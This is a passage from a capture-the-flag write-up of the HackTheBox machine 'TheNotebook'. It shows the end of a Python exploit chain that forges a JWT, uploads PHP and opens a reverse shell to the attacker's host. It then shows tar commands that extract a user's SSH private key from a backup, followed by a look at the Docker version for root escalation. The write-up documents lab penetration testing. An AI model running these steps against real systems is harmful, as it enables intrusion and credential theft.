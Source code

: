```py
    thr.start()
    # Set up the web python server
    webServer()
    # Lets create the user
    createUser(rhost)
    # Login and grab the auth token
    loginUser(rhost)
    # Create jwt token
    createToken(lhost)
    # changeToken
    changeToken(rhost,cookie,encoded)
    #Upload the php
    adminUpload(rhost)
    # Get the rev shell
    getReverse(rhost,lhost,lport,cookie,php_file)
if __name__ == '__main__':
    main()
```

Ok, so let's start our privilege escalation

# www-data -> noah

We start looking at the directories on the box, and with the hint we got about the backups, we found an interesting file

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:14:01.png)

```sh
tar -tvf home.tar.gz
tar xf home.tar.gz -O home/noah/.ssh/id_rsa
```

And we got a ssh key from noah

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:15:12.png)

And log in

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:16:37.png)

So, let's become root

# noah -> root

We realize that noah can execute root commands in a bunch of containeres

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-12-HackTheBox-TheNotebook/2021-09-12-HackTheBox-TheNotebook%2002:27:26.png)

So, we need to look at the docker version to see how to exploit it

```
Docker version 18.06.0-ce, build 0ffa825
```
